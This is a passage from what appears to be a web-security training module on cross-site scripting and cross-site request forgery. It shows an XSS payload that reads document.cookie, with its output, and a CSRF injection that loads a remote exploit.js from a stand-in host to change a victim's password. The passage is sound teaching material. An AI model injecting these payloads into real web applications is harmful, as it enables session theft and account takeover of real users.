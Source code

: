 ```javascript
<img src=/ onerror=alert(document.cookie)>
```

Once we input our payload and hit *ok*, we see that an alert window pops up with the cookie value in it:

```
cookie=6f1583ba802407f5a624bf5ea4e92067
```

This payload is accessing the **HTML** document tree and retrieving the **cookie** object's value. When the browser processes our input, it will be considered a new **DOM**, and our **JavaScript** will be executed, displaying the cookie value back to us in a popup.

An attacker can leverage this to steal cookie sessions and send them to themselves and attempt to use the cookie value to authenticate to the victim's account. The same attack can be used to perform various types of other attacks against a web application's users. **XSS** is a vast topic that will be covered in-depth in later modules.

---

## Cross-Site Request Forgery (CSRF)

The third type of front end vulnerability that is caused by unfiltered user input is [Cross-Site Request Forgery (CSRF)](https://owasp.org/www-community/attacks/csrf). CSRF attacks may utilize **XSS** vulnerabilities to perform certain queries, and **API** calls on a web application that the victim is currently authenticated to. This would allow the attacker to perform actions as the authenticated user. It may also utilize other vulnerabilities to perform the same functions, like utilizing HTTP parameters for attacks.

A common **CSRF** attack to gain higher privileged access to a web application is to craft a **JavaScript** payload that automatically changes the victim's password to the value set by the attacker. Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the **JavaScript CSRF** payload), the **JavaScript** code would execute automatically. It would use the victim’s logged-in session to change their password. Once that is done, the attacker can log in to the victim's account and control it.

**CSRF** can also be leveraged to attack admins and gain access to their accounts. Admins usually have access to sensitive functions, which can sometimes be used to attack and gain control over the back-end server (depending on the functionality provided to admins within a given web application). Following this example, instead of using **JavaScript** code that would return the session cookie, we would load a remote `.js` (**JavaScript**) file, as follows:

\````html
"><script src=//www.example.com/exploit.js></script>
\````

The `exploit.js` file would contain the malicious **JavaScript** code that changes the user's password. Developing the `exploit.js` in this case requires knowledge of this web application’s password changing procedure and **APIs**. The attacker would need to create **JavaScript** code that would replicate the desired functionality and automatically carry it out (i.e., **JavaScript** code that changes our password for this specific web application).

---

